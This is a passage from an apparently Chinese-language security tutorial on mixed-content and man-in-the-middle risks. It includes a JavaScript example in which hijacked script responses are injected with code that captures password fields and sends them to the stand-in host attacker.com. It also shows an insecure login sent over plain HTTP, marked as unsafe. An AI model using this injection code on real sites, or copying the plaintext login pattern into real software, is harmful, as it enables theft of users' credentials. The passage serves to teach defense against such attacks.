**2. 中间人攻击风险**
```javascript
// 攻击场景示例
class MixedContentAttack {
  // 1. 攻击者劫持HTTP请求
  interceptHttpRequest(request) {
    console.log('劫持HTTP请求:', request.url);
    
    // 修改响应内容
    if (request.url.includes('script.js')) {
      return this.injectMaliciousCode(request);
    }
    
    if (request.url.includes('api/')) {
      return this.stealApiData(request);
    }
  }
  
  // 注入恶意代码
  injectMaliciousCode(request) {
    return {
      ...request,
      response: `
        // 原始代码
        console.log('正常功能');
        
        // 恶意代码
        (function() {
          // 窃取用户输入
          document.addEventListener('input', function(e) {
            if (e.target.type === 'password') {
              fetch('http://attacker.com/steal', {
                method: 'POST',
                body: JSON.stringify({
                  password: e.target.value,
                  url: location.href
                })
              });
            }
          });
        })();
      `
    };
  }
}
```

**3. 数据传输安全问题**
```javascript
// HTTP API调用的风险
class InsecureApiCall {
  // ❌ 不安全：敏感数据通过HTTP传输
  async loginWithHttp(username, password) {
    try {
      const response = await fetch('http://api.example.com/login', {
        method: 'POST',
        headers: {
          'Content-Type': 'application/json'
        },
        body: JSON.stringify({
          username,
          password // 明文传输，可被窃取
        })
      });
      
```